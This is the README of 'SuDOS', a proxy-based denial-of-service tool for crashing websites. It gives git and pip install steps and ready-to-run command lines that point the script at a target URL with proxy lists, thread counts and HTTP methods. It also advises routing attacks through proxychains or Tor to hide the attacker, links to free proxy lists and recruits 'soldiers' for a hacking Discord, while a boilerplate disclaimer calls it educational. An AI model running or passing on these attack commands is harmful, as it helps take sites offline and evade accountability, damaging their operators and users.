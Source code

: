 # sudos

**SuDOS** or Super Denial of Service is a proxy-based DoS tool used to crash unprotected websites from this kind of attack. It is highly recommended to use proxychains or VPN while using this tool to hide your own IP address from proxy servers or even from your target.

**We** are in need of soldiers. Join **[CSEC](https://discord.com/invite/dZSDbjJPHx)** for more free powerful tools. We also teach **anonimity**, **hacking** and **programming** for free!

Also, thanks to https://openproxy.space/list for providing these proxy lists for free!

# Disclaimer
- This tool is for educational purposes only.
- I will not be responsible for any damage this tool cause. Use it at your own risk!
- This tool is in early version. Many bugs may occur!

# Installation
Please copy and paste the step-by-step commands below to successfully install **SuDOS** in your computer. I will not be providing how to install [Python](https://python.org/) in your computer. Do some research!
```
git clone https://github.com/lilmond/sudos.git
pip install -r requirements.txt
```
You can put `sudos.py` to `/usr/local/bin/` with root and just remove the file extension to run the script globally. And don't forget to give it access using `chmod`.

# Usage examples
## Basic commands
Sets socket connection timeout to 5
```
python sudos.py "https://example.com/path/page.php?parameter=parameter_value" ./proxies/http/1.txt http --timeout 5
```

Sets max threads to 100
```
python sudos.py "https://example.com/path/page.php" ./proxies/socks5/2.txt socks5 -t 100
```

Sets HTTP method to POST
```
python sudos.py "https://example.com/path/page.php" ./proxies/socks4/1.txt socks4 -m POST
```
## Increase anonymity commands
Basic usage of **proxychains**
```
proxychains4 -q python sudos.py "http://example.com/" ./proxies/socks4/1.txt socks4
```
**SuDOS** with **Torify**
```
torify -q python sudos.py "http://example.com/" ./proxies/http/1.txt http
```

# Screenshots
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_1.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_4.png" width=300/>

# Where do I get proxy lists?
Just click the links below and find a best proxy list for yourself.
- https://openproxy.space/list
- https://www.proxy-list.download/
- https://www.proxyscrape.com/free-proxy-list
